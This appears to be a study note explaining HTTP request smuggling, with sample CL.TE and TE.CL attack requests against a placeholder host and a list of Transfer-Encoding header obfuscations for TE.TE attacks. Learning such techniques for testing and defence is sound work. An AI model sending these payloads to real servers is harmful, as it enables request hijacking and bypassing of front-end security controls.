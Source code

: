 [TOC]

### 0. Knowledges

#### 0.1 How to perform an HTTP request smuggling attack

- **CL.TE**: the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header.

    ```http
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 13
    Transfer-Encoding: chunked
    
    0
    
    SMUGGLED
    ```

- **TE.CL**: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.

    ```http
    POST / HTTP/1.1
    Host: vulnerable-website.com
    Content-Length: 3  // 不能让burp自己更改长度
    Transfer-Encoding: chunked
    
    8
    SMUGGLED
    0
    
    
    ```

- **TE.TE**: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

    ```
    Transfer-Encoding: xchunked
    
    Transfer-Encoding : chunked
    
    Transfer-Encoding: chunked
    Transfer-Encoding: x
    
    Transfer-Encoding: chunked
    Transfer-encoding: x
    
    Transfer-Encoding:[tab]chunked
    
    [space]Transfer-Encoding: chunked
    
    X: X[\n]Transfer-Encoding: chunked
    
    Transfer-Encoding
    : chunked
    ```
